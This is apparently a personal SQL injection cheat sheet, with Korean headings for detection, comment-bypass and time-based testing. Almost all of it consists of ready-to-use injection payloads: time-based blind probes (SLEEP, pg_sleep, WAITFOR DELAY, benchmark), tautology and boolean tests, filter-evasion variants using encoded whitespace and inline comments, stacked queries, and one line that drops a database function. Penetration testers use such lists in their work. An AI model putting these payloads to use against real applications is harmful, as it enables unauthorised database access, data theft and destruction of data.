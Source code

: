 # SQLInjection

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```

```
%2c(select%20*%20from%20(select(sleep(10)))a)
%2c(select*from(select(sleep(20)))a)
(SELECT * FROM (SELECT(SLEEP(15)))a)
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
AND (SELECT 8327 FROM (SELECT(SLEEP(5)))yrDl)
' AND (SELECT -9789) OR 6323=6323# FROM (SELECT(SLEEP(5)))Xeps) AND 'HlBp'='HlBp
' AND SLEEP(5) AND 'wRIg' LIKE 'wRIg
%20AND%20SLEEP(15)%23
';SELECT 1;SELECT pg_sleep\(30\);--'
AND SLEEP(15)

```

```
https://github.com/payloadbox/sql-injection-payload-list
```
SqIinjection 테스트 코드 

탐지 점검
```
&apos;
'
%%2727
%25%27
```

`
select ‘abc’ || ‘def’;
`

```
/**/and/**/1=1/**/--
(1)and(1)=(1)
%09and%091=1%09--
%0Dand%0D1=1%0D--
%0Cand%0C1=1%0C--
%0Band%0B1=1%0B--
%0Aand%0A1=1%0A--
%A0and%A01=1%A0--
```



```
or 1=1 -- 
' or 1=1 -- 
" or 1=1 -- 
1 and 1=2 -- 
```

```
'//AND//'1%'='0 
```

주석으로 우회 
```
'/**/AND/**/'1%'='0
```

시간 기반 테스트 
```
'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

```
';WAITFOR DELAY '0:0:5'--
```

테스트
```
'||(SELECT 0x615a636e FROM DUAL WHERE 7192=7192 AND (SELECT 4865 FROM (SELECT(SLEEP(5)))VDbe))||'
```

```
`=`1` AND ELT(1337=1337 AND ELT(1337=1337,SLEEP(5*5)))|[1
```

OR x=y     

HAVING 1=0

AND 1=0


AND 7=9 AND (5=5
 AND 7=9 AND ('5=5
 AND 7=7 AND 'Z'='Y
 AND 7=7 AND ('Z'='Y
 WHERE 1=1 AND 1=0

AND SLEEP(15)
+ SLEEP(10) + '
' AnD SLEEP(15) ANd '1
(SELECT * FROM (SELECT(SLEEP(15)))ecMj)
+benchmark(3200,SHA1(1))+'
ORDER BY SLEEP(15)
'&&SLEEP(15)&&'1
0' AND SLEEP(15)
';WAITFOR DELAY '0:0:30'--
'+WAITFOR+DELAY+'0:0:10'--+-"

'+(select*from(select(sleep(7*7)))a)+'
 OR 3=3 AND ('W' LIKE 'Y
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
IF(7=4) SELECT 7 ELSE DROP FUNCTION xcjl--
%' AND 1=8 AND '%'='
